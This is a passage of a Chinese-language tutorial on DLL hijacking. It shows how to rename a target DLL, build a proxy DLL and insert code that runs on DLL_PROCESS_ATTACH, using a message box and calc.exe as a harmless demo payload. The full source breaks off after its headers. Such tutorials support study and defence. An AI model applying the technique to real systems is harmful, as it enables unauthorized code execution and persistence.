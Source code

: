 ![](images/11.jpg)

原始DLL这里很关键，是要将被劫持的dll重命名为```DllTestOrg.dll```。

新建一个dll项目，修改dllmain.cpp:

将上一步工具生成的CPP代码追加复制到dllmain.cpp里。

同时修改```dwReason == DLL_PROCESS_ATTACH```的代码，在dll加载时执行恶意代码：

我这里增加了弹窗和弹计算器：

	::MessageBox(NULL, TEXT("OK"), TEXT("OK"), MB_OK);
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi;
	CreateProcess(TEXT("C:\\WINDOWS\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);

dllmain.cpp 完整代码为：
	
	// dllmain.cpp : 定义 DLL 应用程序的入口点。
	#include "pch.h"
	
	
	
	
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// 头文件
	#include <Windows.h>
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	